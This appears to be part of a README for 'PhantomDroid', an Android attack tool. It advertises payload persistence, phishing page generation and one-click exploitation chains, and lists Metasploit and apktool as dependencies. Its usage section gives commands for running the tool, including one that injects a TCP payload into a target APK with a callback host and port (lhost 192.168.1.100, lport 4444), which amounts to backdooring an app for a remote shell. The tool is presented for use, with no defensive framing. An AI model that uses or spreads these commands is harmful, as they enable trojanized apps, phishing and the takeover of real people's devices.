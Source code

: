 ### 🔧 Advanced Tools
- **APK Forensics**: Deep APK analysis and reverse engineering
- **Payload Persistence**: Multiple persistence mechanisms
- **Social Engineering**: Phishing page generation
- **Automated Exploitation**: One-click exploitation chains

## 📋 System Requirements

- **Operating System**: Linux (Ubuntu 20.04+, Kali Linux, Parrot OS)
- **Python**: 3.8+ with pip
- **Java**: OpenJDK 11+
- **Android SDK**: Latest version
- **Dependencies**: Metasploit, apktool, aapt, zipalign

## 🚀 Quick Start

```bash
# Clone the repository
git clone https://github.com/your-repo/PhantomDroid.git
cd PhantomDroid

# Run the installer
chmod +x install.sh
sudo ./install.sh

# Launch PhantomDroid
./phantomdroid.sh
```

## 🎮 Usage Modes

### 1. Interactive Mode
```bash
./phantomdroid.sh --interactive
```

### 2. Command Line Mode
```bash
./phantomdroid.sh --payload tcp --lhost 192.168.1.100 --lport 4444 --target original.apk
```

### 3. Batch Mode
```bash
./phantomdroid.sh --batch --config batch_config.json
```

### 4. Web Interface
```bash
python3 web_interface.py
# Access: http://localhost:8080
```
